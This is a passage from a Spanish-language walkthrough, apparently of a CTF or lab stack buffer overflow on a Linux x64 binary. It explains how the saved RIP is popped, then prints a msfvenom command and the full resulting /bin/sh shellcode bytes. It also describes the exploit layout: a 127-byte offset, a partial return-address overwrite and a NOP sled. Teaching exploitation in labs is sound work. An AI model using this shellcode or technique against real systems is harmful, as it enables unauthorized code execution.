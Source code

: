 La pila ahora contiene, en `0x7fffffffe5b8`, el puntero a nuestro payload (`0x7fffffffef10`) y, justo antes, en `0x7fffffffe5b0`, el **saved RIP** (la dirección a la que `ret` saltará). Al ejecutar `leave` el procesador hace `mov rsp, rbp` (ajusta `rsp` al base pointer del frame) y `pop rbp` (restaura el `rbp` previo, que puede haber quedado parcialmente corrompido). A continuación `ret` realiza un `pop rip`: toma el valor en la cima de la pila (ahora `saved RIP` en `0x7fffffffe5b0`) y lo carga en `rip`, transfiriendo la ejecución a esa dirección. Por eso, si sobrescribimos `saved RIP` con `0x7fffffffef10`, el `ret` saltará directamente al payload en la pila y controlaremos el flujo del programa.

```csharp
0x7fffffffe5c8 − 8 = 0x7fffffffe5c0
```

Con esto ya estamos listos para generar el exploit que nos dará una shell.

El primer paso es crear el **shellcode**. Para este caso utilicé **msfvenom**, especificando la arquitectura `x64`, la plataforma Linux y el comando que quiero ejecutar (`/bin/sh`). Además, filtré el carácter nulo (`\x00`) para evitar problemas en la inyección:

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody]
└─# msfvenom -p linux/x64/exec CMD=/bin/sh -b '\x00' -f python --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Final size of python file: 501 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xf5\xd5\x32"
shellcode += b"\x6f\x45\xfe\x97\x0f\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xbd\x6d\x1d\x0d\x2c"
shellcode += b"\x90\xb8\x7c\x9d\xd5\xab\x3f\x11\xa1\xc5\x69"
shellcode += b"\x9d\xf8\x51\x3b\x1b\xac\x7f\x07\xf5\xd5\x32"
shellcode += b"\x40\x27\x97\xf9\x20\x86\xbd\x32\x39\x12\xaa"
shellcode += b"\xc9\x65\xce\x8d\x3d\x6a\x45\xfe\x97\x0f"
```

Con el shellcode ya preparado, el siguiente paso fue armar el exploit en Python para inyectarlo en el binario vulnerable.

Primero, definí el **offset** necesario para alcanzar la dirección de retorno. En este caso son **127 bytes**.

Después, incluí el **shellcode generado con msfvenom** y definí el último byte de la dirección de retorno (`lsb`) que sobreescribirá el flujo del programa.

Luego lo que hacemos es **rellenar con instrucciones NOP (`0x90`) hasta alcanzar el offset exacto**. Esto se conoce como un **NOP sled**, y es especialmente útil en retos como

con esto aseguramos que:

- Aunque la dirección de retorno no apunte exactamente al inicio del shellcode, al caer en cualquier parte de esta zona de NOPs, la ejecución "resbale" hasta alcanzar el shellcode real.
- Así conseguimos que la explotación ya que no necesitamos acertar a una dirección precisa, solo apuntar a un rango dentro del sled.
